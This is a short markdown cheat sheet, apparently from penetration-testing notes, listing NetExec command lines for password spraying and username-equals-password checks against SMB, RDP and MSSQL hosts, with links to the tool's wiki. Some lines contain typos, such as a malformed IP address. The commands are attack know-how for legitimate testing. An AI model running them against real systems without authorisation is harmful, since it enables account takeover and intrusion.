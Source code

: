 
# Netexec

## SMB 

Note: By default nxc will exit after a successful login is found. Using the --continue-on-success flag, it will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list. This is incompatible with command execution. 

- nxc smb 1172.21.0.0-u user1 user2 user3 -p Winter2024
- nxc smb 172.21.0.0 -u user1 -p password1 password2 password3
- nxc smb 172.21.0.0-u /path/to/users.txt -p Summer18 --continue-on-success

## Checking 'username == password' using wordlist

- nxc smb 172.21.0.0 -u user.txt -p user.txt --no-bruteforce --continue-on-success 

## Checking multiple usernames/passwords using wordlist 

- nxc smb 172.21.0.0 -u user.txt -p password.txt

## RDP

- nxc rdp 172.21.0.0/24 -u user -p password
- nxc rdp 172.21.0.0/24 -u userfile -p passwordfile --no-bruteforce

Note: By default, nxc will exit after a successful login is found. Using the --continue-on-success flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list

## MSSQL

- nxc mssql 172.21.0.0/24 -u userfile -p passwordfile --no-bruteforce

# References: 
- https://www.netexec.wiki/smb-protocol/password-spraying
- https://www.netexec.wiki/rdp-protocol/password-spraying
- https://www.netexec.wiki/mssql-protocol/mssql-passwordspray